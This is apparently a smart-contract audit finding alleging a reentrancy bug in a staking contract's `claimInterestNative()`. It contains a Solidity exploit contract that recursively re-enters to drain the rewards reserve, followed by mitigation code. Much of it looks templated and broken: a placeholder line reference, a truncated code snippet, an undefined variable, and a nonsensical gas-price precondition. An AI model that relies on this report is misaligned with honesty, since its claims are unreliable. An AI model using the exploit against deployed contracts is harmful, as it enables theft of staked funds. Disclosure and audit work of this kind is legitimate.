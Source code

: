 Striped Cotton Beetle

High

# Attacker will drain rewardsReserve for stakers via reentrancy

### Summary

Missing reentrancy guard in `LayerEdgeStaking.sol` will cause complete loss of rewardsReserve for stakers as an attacker will recursively call `claimInterestNative()` before state update

**Root Cause**:  
In `LayerEdgeStaking.sol#L42` (or actual line number):
```solidity
function claimInterestNative() external {
    // Vulnerable ETH transfer before state update
    (bool success,) = payable(user).call{value: amount}(""); 

### Internal Pre-conditions

1. `rewardsReserve` must be at least 1 ETH  
2. `compoundingEnabled` must be set to `true`  
3. Victim must have unclaimed interest 

### External Pre-conditions

1. Gas price must be below 100 gwei to allow multiple reentrant calls

### Attack Path

1. **Attacker deploys malicious contract** with reentrancy hook in `receive()`  
2. **Attacker calls `stakeNative()`** with 1 ETH to become eligible for rewards  
3. **Attacker calls `claimInterestNative()`**  
4. **During ETH transfer**, malicious contract re-enters by calling `claimInterestNative()` again before `interestEarned` is reset  
5. **Repeat step 4** until `rewardsReserve` is drained  

### Impact

- The protocol suffers 100% loss of `rewardsReserve` (e.g., 500 ETH)  
- The attacker gains the entire rewards pool

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ILayerEdgeStaking {
    function stakeNative() external payable;
    function claimInterestNative() external;
    function rewardsReserve() external view returns (uint256);
}

contract Exploit {
    ILayerEdgeStaking public staking;
    uint256 public count;

    constructor(address _staking) {
        staking = ILayerEdgeStaking(_staking);
    }

    function attack() external payable {
        staking.stakeNative{value: 1 ether}();
        staking.claimInterestNative();
    }

    receive() external payable {
        if (count < 5 && staking.rewardsReserve() > 0) {
            count++;
            staking.claimInterestNative();
        }
    }
}
```

### Mitigation

1. Add `nonReentrant` modifier from OpenZeppelin:  
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
contract LayerEdgeStaking is ReentrancyGuard { ... }
```

2. Follow Checks-Effects-Interactions pattern:  
```solidity
function claimInterestNative() external nonReentrant {
    uint256 amount = user.interestEarned;
    user.interestEarned = 0;
    (bool success,) = payable(user).call{value: amount}("");
    require(success);
}
```
